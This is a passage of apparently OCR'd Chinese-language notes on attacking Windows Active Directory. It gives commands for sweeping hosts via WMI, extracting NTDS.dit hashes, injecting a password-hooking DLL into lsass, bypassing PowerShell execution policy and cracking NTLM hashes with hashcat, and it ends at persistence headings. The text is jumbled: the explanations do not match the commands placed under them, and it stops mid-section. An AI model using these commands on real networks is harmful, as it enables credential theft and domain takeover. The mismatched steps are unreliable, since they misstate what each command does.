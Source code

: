 ```
Get-Content <list of IPs> | ForEach-Object {Getwmiobject CIM_DataFile -filter »Drive=’c:’ AND Filename=’proof’ AND extension=’txt’ -Impersonate 3 -computername $_ | Select PSComputername, Name -Unique}
```

```
一篇文章精通PowerShell Empire 2.3（上）
https://www.anquanke.com/post/id/87328
```

**NTDS.dit 中提取哈希**

从 NTDS.dit 中提取哈希，提取出来的文件通过 ntdsdump 是无法提取的通过 esedbexport 来恢复。

安装：

```
https://github.com/clymb3r/Misc-Windows-Hacking
```

```
https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
```

大概需要 (20-30 分钟)

最后生成在./ntds.dit.export/

使用 ntdsxtract 提取域信息

```
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass
```

提取 hash: (这里需要将刚拷出来的三个文件中的 system 复制到当前目录下)  

```
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
```

```
http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html
```

```
hashcat -m 1000 ntout ./password.txt
```

**AD 持久化**
----------

### 活动目录持久性技巧

```
https://adsecurity.org/?p=1929
DS恢复模式密码维护
https://blogs.technet.microsoft.com/askds/2009/03/11/ds-restore-mode-password-maintenance/
```

### **DSRM 密码同步**
